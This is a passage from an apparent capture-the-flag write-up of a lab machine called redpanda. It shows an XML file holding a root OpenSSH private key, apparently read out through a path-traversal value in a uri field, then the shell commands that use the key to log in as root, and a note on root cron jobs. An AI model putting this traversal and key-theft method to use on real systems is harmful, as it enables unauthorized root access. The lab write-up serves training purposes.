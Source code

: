 ```xml
  <image>
    <uri>../../../../../../home/woodenk/root.jpg</uri>
    <hello>-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----</hello>
    <views>2</views>
  </image>
  <totalviews>4</totalviews>
</credits>
```
Now we can use this key to log in as root:  
```shell
[root@kali keys ]$ vi id_rsa_root      
[root@kali keys ]$ chmod 600 id_rsa_root      
[root@kali keys ]$ ssh -i id_rsa_root -l root $TARGET  
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-121-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 04 Aug 2022 01:28:55 PM UTC

  System load:           0.0
  Usage of /:            98.0% of 4.30GB
  Memory usage:          68%
  Swap usage:            0%
  Processes:             223
  Users logged in:       1
  IPv4 address for eth0: 10.10.11.170
  IPv6 address for eth0: dead:beef::250:56ff:feb9:b426

  => / is using 98.0% of 4.30GB


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Thu Jun 30 13:17:41 2022
-bash: warning: setlocale: LC_ALL: cannot change locale (en_GB.UTF-8)
root@redpanda:~#
```

## Forensics
as we assumed, the java process we snooped with `pspy64` was running as a cronjob:  
```shell
*/2 * * * * /root/run_credits.sh
*/5 * * * * sudo -u woodenk /opt/cleanup.sh
```